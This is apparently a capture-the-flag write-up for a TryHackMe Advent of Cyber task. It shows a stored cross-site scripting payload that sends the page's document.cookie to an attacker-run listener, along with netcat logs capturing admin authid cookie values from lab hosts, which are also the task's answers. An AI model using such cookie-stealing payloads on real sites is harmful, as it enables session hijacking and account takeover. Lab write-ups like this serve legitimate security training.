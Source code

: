 1. What is the admin's authid cookie value?

* [http://10.10.186.115:3000/login](http://10.10.186.115:3000/login)
* [http://10.10.186.115:3000/home](http://10.10.186.115:3000/home)

`</p><script>console.log("XSS Works")</script><p>`

![](2020-10-03_09-55.png)

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
[sudo] password for kali: 
listening on [any] 80 ...
```

`</p><script>window.location = 'http://10.8.106.222/page?param=' + document.cookie </script><p>`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.8.106.222] from (UNKNOWN) [10.8.106.222] 47828
GET /page?param=authid=9dd22399fb1f4fdacb008d861576680c4d34607b HTTP/1.1
Host: 10.8.106.222
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.186.115:3000/home
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 10.10.138.108 45766 received!
GET /?cookie=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.9.**.**
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```
